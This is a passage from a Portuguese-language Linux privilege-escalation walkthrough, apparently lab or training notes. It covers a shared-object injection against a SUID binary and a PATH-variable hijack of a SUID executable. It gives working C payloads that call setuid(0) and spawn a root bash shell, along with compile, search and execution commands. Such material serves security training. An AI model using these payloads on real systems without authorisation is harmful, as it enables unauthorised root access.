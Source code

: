 ```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
		setuid(0);
		system("/bin/bash -p");
}
```

-   Gravar (Ctrl+o), e compilar:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

-   Executar o suid-so para ganhar shell root

```bash
/usr/local/bin/suid-so
```

---

### 6.3. SUID / SGID Executables - Environment Variables

-   Encontre todas as aplicações SUID/SGID executáveis

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

Neste exemplo, assumimos que existe um /usr/local/bin/suid-env executável, e que pode ser explorado por herdar a variável de ambiente PATH do usuário e tentar executar programas sem especificar um caminho absoluto.

-   Primeiro, execute o arquivo e observe que ele parece estar tentando iniciar o servidor da web apache2:

```bash
/usr/local/bin/suid-env
```

-   Execute strings no arquivo para procurar strings de caracteres imprimíveis:

```bash
strings /usr/local/bin/suid-env
```

Uma linha ("service apache2 start") sugere que o do serviço executável está sendo chamado para iniciar o servidor web, porém o caminho completo do executável (/usr/sbin/service) não está sendo usado.

Podemos explorá-lo criando um script com o seguinte conteúdo, e de nome service.c:

```c
int main() {
		setuid(0);
		system("/bin/bash -p");
}
```
